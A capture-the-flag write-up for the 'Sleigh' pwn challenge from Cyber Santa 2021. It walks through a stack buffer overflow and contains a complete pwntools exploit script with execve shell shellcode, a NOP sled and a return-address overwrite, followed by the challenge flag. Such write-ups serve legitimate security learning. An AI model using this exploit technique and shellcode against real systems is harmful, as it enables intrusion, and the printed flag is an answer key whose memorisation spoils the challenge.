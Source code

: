 # Cyber Santa 2021 – Sleigh

- **Category:** Pwn Day 2
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given an executable called `sleigh`. Running through the program, it seems like a memory address is leaked.

![Running the Executable](./images/1.png)

## Solution

As usual running `checksec` showed that there was no canary, PIE enabled, and NX (non-executable stack) disabled. This means that we probably have to overwrite the stack and execute some commands to get shell execution.

Looking at `ghidra` shows that the address being printed is of a local variable defined within the function at a 48 byte offset from the start of the function.

So the strategy is to overflow the buffer after the prompt of "What shall they do". I have to overwrite the return pointer of the function over the stack such that it will execute whatever function I put on the stack to achieve shell execution (from my very basic understanding).

Using the same `./pattern_create.rb` and `./pattern_offset.rb` that I used in the writeup in pwn day 1 from metasploit, I found out that the offset was 72.

I found some shellcode online in bytes (Will link the source if I can find). I crafted the payload to have consecutive `nops` (which does nothing) and insert the shellcode at the tail end of the buffer. Following this I append the return address for the function to execute after.

```
from pwn import *

elf = ELF('./sleigh')
p = elf.process()
offset = 72
nops = b'\x90'

shellcode = b'\xeb\x0b\x5f\x48\x31\xd2\x52\x5e\x6a\x3b\x58\x0f\x05\xe8\xf0\xff\xff\xff\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x00'

def getPayload(addr):
    ret = p64(addr)
    pay = nops*(offset-len(shellcode)) + shellcode + ret
    return pay

payload = getPayload(address)
p.sendline(payload)
p.interactive()
```

After keying in the address given by the remote instance, we get a shell!

After running `ls` and `cat flag.txt` we get the flag.

```
HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}
```

## Thoughts

- Again very new things introduced
- `checksec` typically tells you what kind of exploit is needed.
